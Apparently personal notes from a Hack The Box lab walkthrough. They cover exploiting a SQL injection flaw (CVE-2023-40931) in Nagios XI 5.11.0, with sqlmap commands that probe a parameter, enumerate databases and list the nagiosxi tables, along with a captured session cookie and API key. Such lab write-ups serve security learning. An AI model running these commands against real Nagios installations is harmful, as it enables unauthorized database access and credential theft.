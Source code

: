 ```bash
https://nagios.monitored.htb/nagiosxi/?token=0c9d32c4feaf46f79c30967ff5e1cc4f653c89de
```
-won
## pre-exploitation
-Nagios XI 5.11.0 , revealed in the web page
-Nagios XI v5.11.0 - SQL Injection CVE-2023-40931
5bdei6u4eknue3l58dm8hudl17
-api=2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK
![[Pasted image 20250206103857.png]]

```bash
┌──(pwn㉿kali)-[~]
└─$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=5bdei6u4eknue3l58dm8hudl17" --batch --threads 10

tests if the `id` parameter is vulnerable to SQL injection by trying various payloads. If it finds a vulnerability, it confirms that SQL commands can be injected and executed.

┌──(pwn㉿kali)-[~]
└─$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=5bdei6u4eknue3l58dm8hudl17" --batch --threads 10 --dbs

list all the available databases on the target system. After confirming the SQL injection vulnerability


┌──(pwn㉿kali)-[~]
└─$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=5bdei6u4eknue3l58dm8hudl17" --batch --threads 10 -D nagiosxi --tables
---
focus on the database named `nagiosxi`
---

[22 tables]
+-----------------------------+
| xi_auditlog                 |
| xi_auth_tokens              |
| xi_banner_messages          |
| xi_cmp_ccm_backups          |
| xi_cmp_favorites            |
| xi_cmp_nagiosbpi_backups    |
| xi_cmp_scheduledreports_log |
| xi_cmp_trapdata             |
| xi_cmp_trapdata_log         |
| xi_commands                 |
| xi_deploy_agents            |
| xi_deploy_jobs              |
| xi_eventqueue               |
| xi_events                   |
| xi_link_users_messages      |
| xi_meta                     |
| xi_mibs                     |
| xi_options                  |
| xi_sessions                 |
| xi_sysstat                  |
| xi_usermeta                 |
| xi_users                    |
+-----------------------------+

```